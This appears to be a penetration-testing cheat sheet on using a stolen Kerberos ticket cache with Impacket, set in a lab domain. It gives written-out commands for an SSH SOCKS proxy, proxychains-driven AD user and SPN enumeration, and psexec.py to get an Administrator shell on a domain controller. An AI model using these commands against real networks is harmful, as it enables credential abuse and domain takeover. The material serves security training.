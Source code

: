 # Using Kerberos with Impacket

## **Using Kerberos with Impacket**

### Scenario 

#### - Domain computer compromised \(linux\) - User Ccache file owned - Download the ccache into the attacker machine 

### Settings

#### Set Kerberos Env using the stolent ticket

![](../../../../../.gitbook/assets/image%20%28143%29.png)

#### Install krb5-user and add DC into hosts

![](../../../../../.gitbook/assets/image%20%2870%29.png)

#### KRB5.conf configuration

![](../../../../../.gitbook/assets/image%20%28234%29.png)

#### Proxychains

Edit the config file and comment the following line:

![](../../../../../.gitbook/assets/image%20%28170%29.png)

![](../../../../../.gitbook/assets/image%20%28233%29.png)

#### Sock Proxy

Create a sock Proxy on the target compromised linux box :

```csharp
ssh testme@10.110.0.74 -D 1080
```



### Enumerate AD users

```csharp
proxychains python3 GetADUsers.py -all -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator

```

![](../../../../../.gitbook/assets/image%20%2844%29.png)

### Get SPN 

```text
proxychains python3 GetUserSPNs.py -k -no-pass -dc-ip 10.110.0.222 CROOK.BADCORP.LOCAL/Administrator
```

### Get a shell

```csharp
proxychains python3 psexec.py -dc-ip 10.110.0.222 Administrator@dc02.CROOK.BADCORP.LOCAL -k -no-pass
```

![](../../../../../.gitbook/assets/image%20%2827%29.png)

